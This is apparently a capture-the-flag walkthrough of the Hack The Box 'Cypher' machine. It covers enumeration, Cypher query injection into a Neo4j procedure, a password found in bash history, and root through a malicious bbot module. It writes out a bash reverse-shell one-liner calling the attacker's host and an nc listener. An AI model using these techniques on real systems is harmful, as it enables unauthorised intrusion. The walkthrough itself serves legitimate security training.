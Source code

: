# 🔐 HTB Machine: Cypher
![Screenshot](https://imgur.com/mrgrbON.png)
### 🌐 Machine Information
- **IP:**  10.10.11.57
- **OS:** Linux
### 🔹 Initial Enumeration
- To start off, I performed a port scan to discover services running on the target: `nmap 10.10.11.57 -A -p- -oN nmap_scan`
![Screenshot](https://imgur.com/APIFmvR.png)
- Nmap Results 2 open ports: `22 (ssh)`, `80 (HTTP)`
- Navigating to 10.10.11.57 in a browser shows me Cypher's webpage. To view it properly, I added cypher.htb to /etc/hosts first.
![Screenshot](https://imgur.com/vf3gLqv.png)
- The website has a login page. Some trial messages hinted it wasn't using SQL but Cypher Query (since it's a Neo4j backend).
![Screenshot](https://imgur.com/32W8PkW.png)

### 🔹 Directory Enumeration
- Using gobuster, I enumerated hidden directory paths:
![Screenshot](https://imgur.com/4JsZ8fW.png)
![Screenshot](https://imgur.com/1Cu9NXR.png)
- I found some interesting directories like `/testing`, and `/api/cypher`

### 🔹 Source Analysis (/testing)
- The `/testing` directory contains a JAR file.
![Screenshot](https://imgur.com/w6oOUGD.png)
- Decompiling it brought me onto a source code of a function
![Screenshot](https://imgur.com/88g4XJM.png)

### 🔹 Query Injection
- Accessing the `/api/cypher` endpoint returned a "Field Required" message.
![Screenshot](https://imgur.com/Kynywf3.png)
- It seems like it needs a query field.
- So I tried to insert a cypher query In the query field
![Screenshot](https://imgur.com/cJgzkZ0.png)
- And it works, so I tried to see what function can I run.
- Using the `SHOW PROCEDURES;` I found a function that I got on the /testing directory.
![Screenshot](https://imgur.com/uwPyc1M.png)

### 🔹 Reverse Shell (neo4j)
- To execute a reverse shell, I base64-encoded a bash reverse: `bash -c 'bash -i >& /dev/tcp/[MY-IP]/[PORT] 0>&1'`
- Then I injected this base64-encoded command into the procedure’s url parameter. Meanwhile, I listened for a connection:
![Screenshot](https://imgur.com/Hgjgf0O.png)
- So basically, because the function needs a url, I use a dummy url and add a reverse shell encoded with base64, then it got decoded and executes the reverse shell.
- Running the injection successfully drops me into shell as `neo4j`.
![Screenshot](https://imgur.com/M9PIjPa.png)

### 🔹 User Access (graphasm)
- So when I checked `/etc/passwd`, there are other users with the name graphasm.
![Screenshot](https://imgur.com/xgeWWic.png)
- While searching trough files, I got some interesting files, its in `/var/lib/neo4j`
- There is some kind of password in the `.bash_history` file
![Screenshot](https://imgur.com/fSrevG6.png)
- So I tried to login to graphism user using this password
![Screenshot](https://imgur.com/M4e3uVK.png)
- And it works
- So with graphasm user I can get the user flag
![Screenshot](https://imgur.com/fY8t4qa.png)

### 🔹 Privilege Escalation (root)
- Running `sudo -l` as graphasm shows we can execute bbot as root.
![Screenshot](https://imgur.com/qo7Vr0k.png)
- Running bbot shows what can bbot do and its command
![Screenshot](https://imgur.com/ZqTMEra.png)
- Based on the bbot documentation I can use my own preset
![Screenshot](https://imgur.com/7xyQRfU.png)
- This allows me to use my custom modules also, based on this information I assume that I can create my custom preset that load my custom modules directory then I can run my malicious module to escalate my privilege as root
- To exploit this, There is a preset that is already provided in the `/home/graphasm` directory, I will modify it by adding the malicious module directory
![Screenshot](https://imgur.com/A0NUdKN.png)
- Now I will start making the malicious module, I will use the existing module as a reference, the existing module located in `/opt/pipx/venvs/bbot/lib/python3.12/site-packages/bbot/modules`
- I will use `bevigil.py` as reference
![Screenshot](https://imgur.com/gPCmnuK.png)
- I'm adding a reverse shell script at the top of the file so it runs first.
- Before running the custom bbot module, I run nc -lvnp 4444 first to catch the reverse shell
- Then I run this command to run the malicious script
![Screenshot](https://imgur.com/8xoLnVg.png)
- Then the nc will be root shell
![Screenshot](https://imgur.com/bDmX88C.png)
 With this I can get the root flag
![Screennshot](https://imgur.com/evWKZoZ.png)